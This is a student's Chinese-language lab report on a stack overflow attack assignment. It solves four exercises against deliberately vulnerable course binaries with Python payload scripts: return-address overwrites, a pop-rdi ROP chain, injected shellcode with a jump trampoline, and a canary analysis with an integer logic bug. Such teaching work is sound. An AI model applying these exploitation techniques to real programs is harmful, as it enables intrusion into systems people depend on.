




# 栈溢出攻击实验
姓名：周钰杭
学号：2024200535

## 题目解决思路


### Problem 1: 
- **分析**：
先分析main函数，得到该函数的大致框架：
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char payload[256]; // [rsp+10h] [rbp-110h] BYREF
  size_t read_bytes; // [rsp+110h] [rbp-10h]
  FILE *file; // [rsp+118h] [rbp-8h]

  puts("Do you like ICS?");
  if ( argc == 2 )
  {
    file = fopen(argv[1], "r");
    if ( file )
    {
      read_bytes = fread(payload, 1uLL, 0x100uLL, file);
      if ( read_bytes )
      {
        payload[read_bytes] = 0;
        fclose(file);
        func(payload);
        puts("You don't like it! You fail!");  //-->不允许执行
        return 0;
      }else //报错
    }else //报错
  }else //报错
}
```
由于`fread()`限制读取长度，所以`main`函数里不会发生溢出，所以进一步分析发现可攻击的位置应该为`func`函数这里。首先分析`func`函数大致框架：
```c
void func(char *s)
{
  char buffer[8]; // [rsp+18]
  strcpy(buffer, payload);
}
```
我们发现这里`func`函数中会把前面我们输入的字符串（最多256bytes）全部复制，而缓冲区只有8bytes，所以极大可能会溢出。然后我们找到`func1`函数会输出我们想要的“Yes!I like ICS!”字符串，所以我们这里即通过修改`func`函数的返回地址使其调用`func1`函数即可达到攻击效果。
所以我们先分析`func`函数的栈帧：
```
高地址
+-----------------+
|     retaddr     |  <-- 我们要覆盖这里
+-----------------+
|    saved rbp    |  8 字节
+-----------------+   <--- %rbp
|   Buffer (8B)   |  8 字节 
+-----------------+   <--- %rbp-0x8
低地址
```
所以我们就可以得到解决方案，即用`func1`函数的入口地址 0x401216来覆盖这里`func`函数的retaddr，使其在返回时跳转执行`func1`函数。
- **解决方案**：
```py
#8字节buffer + 8字节saved rbp 
padding = b"A" * 16
#func1 的入口地址 0x401216
func1_address = b"\x16\x12\x40\x00\x00\x00\x00\x00"
payload = padding + func1_address

# 写入文件
with open("ans1.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans1.txt")
```
- **结果**：


### Problem 2:
- **分析**：
首先分析`main`函数，发现此题的`main`函数和上题的主要框架相同，所以这里不再赘述。
由于`fread()`限制读取长度，所以`main`函数里不会发生溢出，进一步分析依旧发现可攻击的位置应该为`func`函数这里。`func`函数大致框架：
```c
void func(char *s)
{
  char buffer[8]; // [rsp+18]
  memcpy(buffer, payload, 0x38uLL);
}
```
我们发现这里`func`函数中会把前面我们输入的字符串（最多256bytes）复制0x38个bytes，而缓冲区只有8bytes，所以极大可能会溢出。然后我们找到`func2`函数会输出我们想要的“Yes!I like ICS!”字符串，所以我们这里即通过修改`func`函数的返回地址使其调用`func2`函数即可达到攻击效果。

然后我们来分析`func2`，它的大概框架是：
```c
void func2(int x)
{
  if ( x != 1016 )
  {
    printf("I think that you should give me the right number!\n");
    exit(0);
  }
  printf("Yes!I like ICS!\n");
  exit(0);
}
```
发现它要输出“Yes!I like ICS!”字符串有个前提条件，要使其传入的参数等于1016，即%rdi==1016。所以我们不能直接让`func`函数直接跳转到`func2`函数这里执行，应该先想办法改变%rdi的值再跳转。

经过查找，我们发现有个`pop_rdi`函数中有`pop %rdi`这一步可以将栈顶存的值放入%rdi中，所以我们应该先调用这个再跳转到`func2`函数执行。故我们可以设计下面这个输出：

```
#调用func的栈帧图
高地址
左栈（原状态）                          右栈（溢出后）
+----------------+                      +----------------+
|main()未使用区域 |                      |   0x401216     |<--func2入口地址
+----------------+                      +----------------+
|main()未使用区域 |                      |   1016         |<--将此值存入%rdi
+----------------+                      +----------------+
|    retaddr     |                      |   0x4012c7     |<-- pop  %rdi指令地址
+----------------+                      +----------------+
|    saved rbp   |                      |   AAAAAAAA     |
+----------------+  <--    %rbp     --> +----------------+
|   Buffer (8B)  |                      |   AAAAAAAA     |
+----------------+  <-- %rbp-0x8    --> +----------------+ 

低地址
```
首先用pop  %rdi指令地址来覆盖这里`func`函数的retaddr，使其在返回时跳转执行pop  %rdi指令，把新的栈顶的1016赋值给%rdi，然后`pop_rdi`函数中继续执行，ret会再继续跳转到`func2`函数入口执行，此时已满足输出“Yes!I like ICS!”字符串的前提条件，故成功完成攻击。
- **解决方案**：
```py
#8字节buffer + 8字节saved rbp 
padding = b"A" * 16 
#pop_rdi指令地址
pop_rdi_addr = b"\xc7\x12\x40\x00\x00\x00\x00\x00"
arg1 = b"\xf8\x03\x00\x00\x00\x00\x00\x00" # 存入rdi=0x3f8
#func2入口地址
func2_addr = b"\x16\x12\x40\x00\x00\x00\x00\x00"

payload = padding + pop_rdi_addr + arg1 + func2_addr
# 写入文件
with open("ans2.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans2.txt")
```
- **结果**：

### Problem 3: 
- **分析**：首先分析`main`函数，发现此题的`main`函数和上题的主要框架依旧相同，所以这里仍然不再赘述。
由于`fread()`限制读取长度，所以`main`函数里不会发生溢出，进一步分析依旧发现可攻击的位置应该为`func`函数这里。`func`函数大致框架：
```c
void func(char *payload)
{
  __int64 v1; // [rsp+0h] [rbp-30h] BYREF
  char *sa; // [rsp+8h] [rbp-28h]
  char buffer[32]; // [rsp+10h] [rbp-20h] BYREF

  sa = s;
  saved_rsp = (uint64_t)&v1;
  memcpy(buffer, payload, 0x40uLL);
  puts("Now, say your lucky number is 114!");
  puts("If you do that, I will give you great scores!");
}
```
我们发现这里`func`函数中的`memcpy`操作会把前面我们输入的字符串复制0x40个bytes，而缓冲区buffer只有0x20bytes，所以一定会发生溢出。然后我们找到`func1`函数会输出我们想要的“Your lucky number is 114”字符串，所以我们这里即通过修改`func`函数的返回地址使其调用`func2`函数即可达到攻击效果。
此外，这里我们要重点关注`func`函数在这里有一个很特别的操作:
```
mov    %rsp,%rax
mov    %rax,0x21a1(%rip)  # 403510 <saved_rsp>
```
它把%rsp存入到特定的位置,这一操作在之后起到作用。


这里我们先把`func`函数的栈帧图画出来后面有用：
```
高地址
+-----------------+
|     payload     |  100H
+-----------------+
|   main()栈帧空余 |  10H
+-----------------+
|     retaddr     |  
+-----------------+
|    saved rbp    |  8 字节
+-----------------+   <--- %rbp
|   buffer (32B)  |  20H 
+-----------------+   <--- %rbp-0x20=%rsp+0x10
|   sa            |   
+-----------------+   <--- %rbp-0x28
|                 |  
+-----------------+   <--- %rbp-0x30=%rsp
低地址
```

然后我们来分析`func1`，它的大概框架是：
```c
void func1(int x)
{
  char buffer1[50]; 

  if ( x == 114 )
  {
    strcpy(buffer1, "Your lucky number is 114");
    buffer1[25] = 0;
    *(_WORD *)&buffer1[26] = 0;
    *(_DWORD *)&buffer1[28] = 0;
  }
  else
  {
    strcpy(buffer1, "Error answer!");
    memset(&buffer1[14], 0, 18);
  }
  memset(&buffer1[32], 0, 18);
  puts(buffer1);
  exit(0);
}
```
发现它要输出我们想要的这个字符串有个前提条件，要使其传入的参数等于114，即%rdi==114。所以我们不能直接让`func`函数直接跳转到`func2`函数这里执行，应该先想办法改变%rdi的值再跳转。

这里我们发现题目中给出了一个`jmp_xs`函数，我们来仔细分析一下它的汇编操作：
```asm
mov    0x21cd(%rip),%rax        # 403510 <saved_rsp>
mov    %rax,-0x8(%rbp)
addq   $0x10,-0x8(%rbp)
mov    -0x8(%rbp),%rax
jmp    *%rax                   # jmp to buffer
```
我们发现它会跳转到`func`函数的栈顶指针+0x10的地方，我们回看刚刚画的`func`函数栈帧图，发现对应的正是buffer的开始地址，所以我们可以利用这个函数回跳到buffer这里，然后在buffer开头执行一系列操作使得%rdi=114后再跳转到`func1`即可成功实现攻击。

故我们可以设计下面这个输出：
1.先用`jmp_xs`函数入口地址覆盖这里`func`函数的retaddr，使其在返回时跳转到`func`函数栈帧中存放buffer的开始地址（这里buffer其实存放的即为我们输入内容的复制）
2.在buffer开头存入mov rdi, 0x72; mov rax, 0x401216; call rax的机器码，使得跳转到这里后执行这三个操作，让%rdi=114后跳转到`func1`函数输出想要的结果

- **解决方案**：
```python
# 汇编代码部分,机器码: mov rdi, 0x72; mov rax, 0x401216; call rax
shellcode = b"\xbf\x72\x00\x00\x00\x48\xc7\xc0\x16\x12\x40\x00\xff\xd0"

# 填充 26 字节 (40 - 14 = 26)
padding_fill = b"A" * 26

# jmp_xs()入口地址
jump_trampoline = b"\x34\x13\x40\x00\x00\x00\x00\x00" 

payload = shellcode + padding_fill + jump_trampoline

# 写入文件
with open("ans3.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans3.txt")
```
- **结果**：

### Problem 4: 
- **分析**：首先先来看本题的main函数：
```c
int main(int argc, const char **argv, const char **envp)
{
  unsigned int v3[4]; // [rsp+0h] [rbp-A0h] BYREF
  char v4[45]; // [rsp+13h] [rbp-8Dh] BYREF
  char v5[32]; // [rsp+40h] [rbp-60h] BYREF
  char v6[56]; // [rsp+60h] [rbp-40h] BYREF
  unsigned __int64 v7; // [rsp+98h] [rbp-8h]

  v7 = __readfsqword(0x28u);  //canary值
  v3[1] = -1;
  v3[2] = -1;
  v3[3] = -200000096;

  puts("hi please tell me what is your name?");
  scanf("%s", &v4[13]);
  strcpy(v4, "pakagxuwquoe");
  caesar_decrypt(v4, 12LL);

  puts("hi! do you like ics?");
  scanf("%s", v5);
  strcpy(v6, "urkagsuhqyqkgmzetuuiuxxsuhqkagsaapeoadqe");
  caesar_decrypt(v6, 12LL);
  puts("if you give me enough yuanshi,I will let you pass!");

  for ( v3[0] = 0; ; func(v3[0]) )
    scanf("%d", v3);
}
```
经过查看`caesar_decrypt`函数，发现其只是一个解密字符串函数，非攻击函数，故略去不看。

这里我们先来分析`main`函数的canary保护机制（后续的`func`函数中的canary保护机制与此相同，故不再做分析）：
##### Step1.注入canary值
```assembly
1428:   48 81 ec a0 00 00 00    sub    $0xa0,%rsp        # 分配 160 字节的栈空间
142f:   64 48 8b 04 25 28 00    mov    %fs:0x28,%rax     # 从段寄存器 fs:0x28 获取随机 Canary
1438:   48 89 45 f8             mov    %rax,-0x8(%rbp)   # 将其存入栈中 [rbp-0x8] 的位置
143c:   31 c0                   xor    %eax,%eax         # 立即清空 rax，防止canary值泄露
```
这里将*canary*值放在`rbp-0x8`，紧邻 `saved rbp` 和返回地址，确保如果返回地址被覆盖时*canary*值一定已经被修改。

##### Step2.检验canary值
在函数执行结束、准备执行 `ret` 之前，程序会验证栈上的值是否被篡改：
```assembly
140a:  48 8b 45 f8              mov    -0x8(%rbp), %rax # 从栈中取出运行时的值
140e:  64 48 2b 04 25 28 00     sub    %fs:0x28, %rax   # 将其与系统原始值进行对比
1417:  74 05                    je     141e <func+0xc1> # 如果结果为 0 (相等)，流程安全，跳转到结束
1419:  e8 b2 fc ff ff           call   10d0 <__stack_chk_fail@plt> # 否则，栈溢出
```
由于这里`main`函数设置了*canary*值保护，所以通过在strcpy时输出来覆盖返回地址并不能攻击成功，因为会被检测到栈溢出。

所以我们可以知道这道题不是通过前两个输入来攻击，故我们进一步来看`func`函数：
```c
unsigned __int64 __fastcall func(unsigned int a1)
{
  unsigned int v2; // [rsp+18h] [rbp-18h]
  unsigned int i; // [rsp+1Ch] [rbp-14h]
  unsigned __int64 v4; // [rsp+28h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  v2 = a1;
  printf("your money is %u\n", a1);
  if ( a1 >= 0xFFFFFFFE )
  {
    for ( i = 0; i < 0xFFFFFFFE; ++i )
      --v2;
    if ( v2 == 1 && a1 == -1 )
    {
      func1();
      exit(0);
    }
    puts("No! I will let you fail!");
  }
  else
  {
    puts("your money is not enough!");
  }
  return v4 - __readfsqword(0x28u);
}
```
我们发现`func`函数中会调用`func1`，经过查看发现`func1`函数会输出“great!I will give you great scores”字符串，这正是我们想看到的通关提示，所以我们这里通关的办法应该是设计第三个输入来使程序调用`func1`函数。

经过观察，我们发现这个`func`函数只要-1（即a1=-1）即可因为逻辑漏洞调用`func1`函数，故本道题攻击成功。
- **解决方案**：见下图
- **结果**：

## 思考与总结
通过本次实现，更加深刻地学习到栈溢出的几种攻击方式与保护，特别是对ROP有了更加深刻的理解和实践。


## 参考资料
无
